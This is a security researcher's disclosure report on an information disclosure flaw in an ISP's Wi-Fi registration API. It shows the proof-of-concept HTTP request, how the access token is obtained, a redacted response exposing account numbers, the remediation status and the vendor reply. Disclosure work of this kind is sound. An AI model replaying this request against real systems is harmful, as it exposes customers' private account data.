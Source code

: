 ```yaml
---
layout: reports
permalink: /reports/6/
tagline: "On 10 August 2018 I discovered an Information Disclosure vulnerability on shaw.com"
image:
  feature: 
  hero: 
report-id: GW0006
---
```


## Summary

By sending a `GET` request to a specific API location it is possible to obtain a customer's account number in addition to registered device IDs and MAC Addresses of associated Shaw Go Wifi devices.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with that customer or by remotely logging into a @shaw.ca email associated with that customer.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

Request:
```http
GET /api/customer/account/ HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Accept: application/json
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 381
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"account_id":"03161234567","account_status":"active","device_quota":10,"url":"/accounts/03161234567","downlink_speed":"30","uplink_speed":"5","service_code":"830-137","service_type":"Residential","service_description":"INTERNET 150 PLUS","service_status":"active","quota_available":true,"devices":[],"account_number":"03161234567","response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._

## Recommended Actions

 - Implement proper access controls to prevent information disclosure.

## Remediation Status

At the time of publishing this report `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` from an IP associated with the customer now result in the response showing `401 Unauthorized`. However this access token can still be generated by logging in to a @shaw.ca email address associated with that customer.

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since this report.

## Response From Vendor

### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.

